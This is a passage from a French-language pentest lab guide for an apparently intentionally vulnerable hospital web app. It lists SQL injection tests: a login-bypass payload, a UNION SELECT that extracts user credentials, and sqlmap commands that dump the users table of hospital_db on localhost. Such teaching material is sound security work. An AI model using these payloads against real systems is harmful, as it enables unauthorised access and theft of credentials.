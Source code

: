 ```javascript
```

## Tests d'Injection SQL

### Test 1: Authentification Bypass

**Objectif**: Contourner l'authentification en utilisant une injection SQL.

**Procédure**:
1. Accédez à la page de connexion (`/login`)
2. Dans le champ "Username", entrez: `' OR '1'='1`
3. Dans le champ "Password", entrez n'importe quoi ou le même payload

**Résultat attendu**: Vous accédez au système sans connaître le mot de passe.

**Explication**: La requête SQL devient:
```sql
SELECT * FROM users WHERE username='' OR '1'='1' AND password='xyz'
```
La condition `'1'='1'` est toujours vraie, donc la requête retourne tous les utilisateurs.

### Test 2: Extraction de Données avec UNION

**Objectif**: Extraire des données d'autres tables de la base de données.

**Procédure**:
1. Dans un champ de recherche de médicaments, entrez:
   ```
   ' UNION SELECT id, username, password, 'x', 'x', 'x' FROM users; --
   ```
   (Ajustez le nombre de colonnes selon le schéma exact)

**Résultat attendu**: Les résultats affichent à la fois des médicaments et des informations utilisateur.

### Test 3: Utilisation de SQLmap

SQLmap est un outil puissant pour tester automatiquement les injections SQL:

```bash
# Test de base sur le formulaire de connexion
sqlmap -u "http://localhost:3000/login" --data="username=test&password=test" -p username,password --dbs

# Extraction des tables
sqlmap -u "http://localhost:3000/login" --data="username=test&password=test" -p username --tables

# Extraction des données
sqlmap -u "http://localhost:3000/login" --data="username=test&password=test" -p username -D hospital_db -T users --dump
```

## Tests XSS
